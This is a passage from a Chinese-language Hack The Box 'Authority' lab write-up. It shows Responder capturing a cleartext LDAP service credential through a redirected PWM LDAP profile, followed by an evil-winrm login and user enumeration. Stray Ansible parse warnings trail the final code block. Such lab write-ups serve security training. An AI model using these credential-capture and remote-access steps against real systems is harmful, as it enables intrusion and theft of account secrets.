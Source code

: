 
## Initial Access

可以在上图的WARN看到LDAP服务器 `ldaps://authority.authority.htb:636`。找到配置尝试添加kali为LDAP服务器。


![HTB-Authority-8443-ldap-setting](./../evidence-img/HTB-Authority-8443-ldap-setting.png)

执行`sudo responder -I tun0 -v`，然后点击 `Test LDAP Profile`，可以收到明文凭据 `svc_ldap:lDaP_1n_th3_cle4r!`：
```bash
（略）
[+] Servers:
（略）
    LDAP server                [ON]
（略）
[+] Listening for events...                                                                                         

[LDAP] Attempting to parse an old simple Bind request.
[LDAP] Cleartext Client   : 10.10.11.222
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
（略）
``` 

由于开放了5985端口，尝试 `evil-winrm` 连接：
```bash
┌──(venv-ansible)─(kali㉿kali)-[~/HTB/Authority]
└─$ evil-winrm -i 10.10.11.222 -u svc_ldap -p lDaP_1n_th3_cle4r!
（略）
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> whoami
htb\svc_ldap

*Evil-WinRM* PS C:\Users\svc_ldap\Downloads> whoami /all

USER INFORMATION
----------------

User Name    SID
============ =============================================
htb\svc_ldap S-1-5-21-622327497-3269355298-2248959698-1601


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
```

[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with yaml
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with ini
[WARNING]: Unable to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory as an inventory
[WARNING]: No inventory was parsed, only implicit localhost is available
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with yaml
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with ini
[WARNING]: Unable to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory as an inventory
[WARNING]: No inventory was parsed, only implicit localhost is available